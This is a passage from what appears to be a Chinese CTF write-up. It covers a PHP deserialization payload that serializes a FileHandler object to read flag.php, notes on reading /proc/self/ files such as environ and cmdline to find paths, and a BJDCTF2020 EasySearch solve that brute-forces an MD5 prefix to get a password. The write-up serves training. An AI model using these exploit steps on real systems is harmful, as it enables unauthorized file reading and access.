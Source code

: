 ```php
<?php

class FileHandler {

    public $op = 2;
    public  $filename = "flag.php";
    public  $content = "aaa";
}

$a = new FileHandler();
$b = serialize($a);
echo $b;

?>
```

在不知道flag.php文件路径的时候，可以通过读取系统配置文件、容器配置文件来猜flag的绝对路径。

```
linux提供了/proc/self/目录，这个目录比较独特，不同的进程访问该目录时获得的信息是不同的，内容等价于/proc/本进程pid/。进程可以通过访问/proc/self/目录来获取自己的信息。

maps 记录一些调用的扩展或者自定义 so 文件

environ 环境变量

comm 当前进程运行的程序

cmdline 程序运行的绝对路径

cpuset docker 环境可以看 machine ID

cgroup docker环境下全是 machine ID 不太常用
```



## [BJDCTF2020]EasySearch

源码.swp泄露，通过审计，

```python
import hashlib
def md5(s):
    return hashlib.md5(s.encode('utf-8')).hexdigest()
for i in range(1, 10000000):
    if md5(str(i)).startswith('6d0bc1'):
        print(i)
        break
```

爆破得到密码为2020666，先测试一下网站基本功能，用户名aaa，密码2020666登录进去，在network处获得文件路径（抓包也可以看到），文件后缀为shtml

![](https://img.npfs06.top/20210326235216.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)
